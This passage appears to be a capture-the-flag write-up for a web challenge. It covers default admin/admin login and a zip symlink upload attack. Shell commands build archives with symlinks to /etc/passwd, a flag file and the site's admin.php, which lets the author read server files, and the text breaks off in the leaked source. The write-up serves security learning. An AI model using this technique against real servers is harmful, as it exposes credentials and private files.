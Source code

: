 Go to `admin.php` and voila, the page appear.
![image](https://user-images.githubusercontent.com/39065934/126635181-348dd2b7-fbd9-4d71-935b-91c74217feab.png)
## Weak authentication
Checking the source code, we have the following line, which is clealy a hint.
![image](https://user-images.githubusercontent.com/39065934/126635403-9490395d-abec-47ef-aacc-e5b0663c37e4.png)

We now login with `username=admin` and `password=admin`
![image](https://user-images.githubusercontent.com/39065934/126635708-cd77ae12-825d-4aed-a503-dfec7621a093.png)
## Unzip and symlinks
This website do two thing. First, it unzip our uploaded file, then display the result to us. For example, I zipped a text file and upload it, and this is the result.

![image](https://user-images.githubusercontent.com/39065934/126636721-5068e1d3-0159-4cb9-87aa-44b5ce5712fe.png)

If you are new and don't know what to do next at this point, I refer to read [this](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-file-automatically-decompressed-upload) first.

Using the soft symlink, we craft a zip file contain a symlink point to `/etc/flag` to read the flag.
```bash
ln -s /etc/flag flag.txt
zip --symlink exploit.zip flag.txt
```
However, it doesn't work as we expected.
![image](https://user-images.githubusercontent.com/39065934/126637641-65df384d-79ad-4509-8ae0-38f0695e026f.png)

Okey so now it's time to double check. Because the result say that the file is not found, I tried read the famous `/etc/passwd` file for double check.
```bash
ln -s /etc/flag flag.txt
ln -s /etc/passwd passwd.txt
zip --symlink exploit.zip flag.txt passwd.txt
```
Now we can see the content of `/etc/passwd`, but the flag file is still not found
![image](https://user-images.githubusercontent.com/39065934/126638006-0da3f0b5-0650-4cc3-b697-a8dc0b5abe91.png)

## Reading the source code
By now I tried to read the source code, and luckyly, that we can see that path is `/var/www/html/tmp/upload_*****`, which make me think that the source code should be in `/var/www/html`, so now we trying to read it using the following
```bash
ln -s /var/www/html/admin.php source.txt
zip --symlink exploit.zip source.txt
```
and the source appear
![image](https://user-images.githubusercontent.com/39065934/126638934-343d8799-f462-4c3c-8570-f60e4f22510c.png)
```php
<html>

<head>
  <title>Unz1pp3r</title>
  <style>
    body {
      background-color: white;
      color: blue;
    }
  </style>
</head>

<body>
```